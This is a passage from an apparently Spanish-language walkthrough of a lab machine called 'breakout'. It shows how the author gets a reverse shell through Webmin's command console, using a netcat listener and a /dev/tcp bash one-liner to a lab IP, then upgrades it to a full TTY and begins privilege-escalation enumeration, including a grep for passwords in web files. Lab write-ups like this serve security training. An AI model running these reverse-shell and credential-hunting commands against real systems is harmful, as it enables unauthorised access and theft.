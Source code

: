 Para obtener una shell interactiva, utilicé la interfaz de comandos de Webmin para ejecutar un payload de reverse shell. Generé el payload utilizando la herramienta en línea `revshells.com`.

Primero, puse un listener de `netcat` en mi máquina atacante para recibir la conexión entrante.

```bash
nc -lvnp 4444
```

Luego, ejecuté el siguiente comando en la consola de Webmin:

```bash
sh -i >& /dev/tcp/192.168.56.22/4444 0>&1
```

La conexión se estableció de inmediato, proporcionándome una shell en la máquina víctima como el usuario `cyber`.

```bash
listening on [any] 4444 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.34] 33948
sh: 0: can't access tty; job control turned off
$
```

La shell obtenida era no interactiva y muy limitada. Para poder trabajar de manera eficiente, la actualicé a una TTY completamente funcional.

```bash
# Paso 1: Generar una mejor shell con Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Paso 2: Poner la shell en segundo plano y configurar mi terminal local
Ctrl-Z
stty raw -echo; fg

# Paso 3: Configurar la terminal remota
export TERM=xterm
reset
```

Tras este proceso, obtuve una shell `bash` estable e interactiva.

```bash
cyber@breakout:~$
```

### <mark style="color:yellow;">Fase 4: Escalada de Privilegios</mark>

#### <mark style="color:green;">4.1 Enumeración Local y Análisis del Binario</mark> <mark style="color:green;"></mark><mark style="color:green;">`tar`</mark>

Una vez con una shell estable, comencé la fase de enumeración local para encontrar un vector de escalada de privilegios.

```bash
# Permisos Sudo
sudo -l

# Binarios SUID
find / -perm -u=s -type f 2>/dev/null

# Tareas Programadas (Cron Jobs)
cat /etc/crontab

# Buscar Contraseñas en Archivos
grep -r "password" /var/www/html 2>/dev/null
```
